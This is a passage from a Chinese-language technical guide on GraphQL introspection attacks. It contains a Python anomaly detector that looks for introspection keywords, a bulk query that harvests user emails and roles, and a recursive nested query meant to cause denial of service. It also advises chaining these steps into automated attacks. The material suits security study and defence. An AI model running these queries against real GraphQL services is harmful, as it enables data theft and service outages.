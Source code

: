 ### 4.2 请求指纹识别
基于机器学习的异常检测模型：
```python
from sklearn.ensemble import IsolationForest

class IntrospectionDetector:
    def __init__(self):
        self.model = IsolationForest(contamination=0.01)
    
    def analyze_request(self, query):
        features = [
            len(query),
            query.count("__schema"),
            query.count("__typename"),
            query.count("type")
        ]
        return self.model.predict([features])[0]
```

## 五、深度利用技巧
### 5.1 批量查询攻击
利用内省发现的列表类型进行数据爆破：
```graphql
query {
  allUsers(first: 1000) {
    edges {
      node {
        id
        email
        role
      }
    }
  }
}
```

### 5.2 类型递归攻击
构造循环嵌套查询引发DoS：
```graphql
query {
  __type(name: "User") {
    fields {
      type {
        fields {
          type {
            fields {
              # 递归嵌套...
            }
          }
        }
      }
    }
  }
}
```

本技术文档提供完整的攻击生命周期管理方案，涵盖从基础探测到高级绕过技术。实际攻击中建议结合BurpSuite的GraphQL插件进行流量分析，配合自定义脚本实现自动化攻击链。防御方应重点关注schema权限控制、请求深度限制和实时监控系统的建设。

---

*文档生成时间: 2025-03-13 11:44:40*
